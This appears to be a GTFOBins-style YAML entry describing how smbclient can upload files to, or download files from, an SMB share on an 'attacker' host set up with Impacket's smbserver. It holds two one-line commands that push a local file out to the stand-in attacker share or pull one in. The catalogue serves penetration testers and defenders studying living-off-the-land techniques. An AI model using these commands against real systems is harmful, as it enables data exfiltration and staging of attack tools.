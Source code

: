 ```yaml
---
description: A valid SMB/CIFS server must be available.
functions:
  file-upload:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
      code: |
        smbclient '\\attacker\share' -c 'put $LFILE'
  file-download:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
      code: |
        smbclient '\\attacker\share' -c 'get $RFILE'
---
```

